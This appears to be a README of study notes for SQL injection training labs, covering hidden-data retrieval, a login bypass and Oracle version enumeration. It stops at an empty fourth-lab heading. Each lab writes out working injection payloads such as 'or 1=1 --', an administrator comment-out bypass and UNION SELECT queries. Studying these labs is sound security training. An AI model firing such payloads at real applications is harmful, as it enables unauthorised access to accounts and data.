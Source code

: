 
# SQL injection_labs
### lab_1. SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
SQL injection - product category filter

SELECT * FROM products WHERE category = 'Gifts' AND released = 1 

End goal: display all products both released and unreleased.

Analysis:
``` sql
SELECT * FROM products WHERE category = 'Pets' AND released = 1
SELECT * FROM products WHERE category = ''' AND released = 1 
SELECT * FROM products WHERE category = ''--' AND released = 1 
SELECT * FROM products WHERE category = ''
SELECT * FROM products WHERE category = '' or 1=1 --' AND released = 1 
``` 

### lab_2.SQL injection vulnerability allowing login bypass
SQL injection - Login functionality

End Goal: perform SQLi attack and log in as the administrator user. 

Analysis
``` sql

SELECT firstname FROM users where username='admin' and password='admin'
SELECT firstname FROM users where username=''' and password='admin'
SELECT firstname FROM users where username='administrator'--' and password='admin'
SELECT firstname FROM users where username='admin'
```

### lab_3.  SQL injection attack, querying the database type and version on Oracle
SQL Injection - Product category filter

End Goal - display the database version string

Analysis:
(1) Determine the number of columns
' order by 3 -- -> internal server error

3 - 1 = 2

(2) Determine the data types of the columns
' UNION SELECT 'a', 'a' from DUAL-- -> Oracle database

(3) Output the version of the database
' UNION SELECT banner, NULL from v$version--
SELECT banner FROM v$version

### lab_4. SQL injection attack, querying the database type and version on MySQL and Microsoft
